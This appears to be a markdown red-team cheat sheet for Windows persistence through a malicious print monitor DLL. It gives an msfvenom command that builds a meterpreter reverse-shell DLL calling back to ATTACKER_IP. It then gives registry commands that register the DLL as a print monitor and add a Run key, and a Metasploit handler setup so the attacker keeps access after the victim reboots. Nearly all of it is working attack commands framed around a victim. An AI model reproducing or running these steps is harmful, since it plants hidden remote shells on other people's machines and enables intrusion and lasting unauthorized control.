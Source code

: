 # Port Monitor persistence

## Steps:

### 1) Generate a DLL payload

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ATTACKER_IP lport=ATTACKER_PORT -f dll > pwn.dll

### 2) Inject the DLL payload

    upload /home/user/pwn.dll
    reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ -v pwned -d 'C:\Windows\System32\netsh'
    reg add "hklm\system\currentcontrolset\control\print\monitors\pwned" /v "Driver" /d "pwn.dll" /t REG_SZ

### 3) Maintain access (Upon victim reboots his machine, our DLL wil be executed and then we maintain our access on startup

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost ATTACKER_IP
    set lport ATTACKER_PORT
    exploit
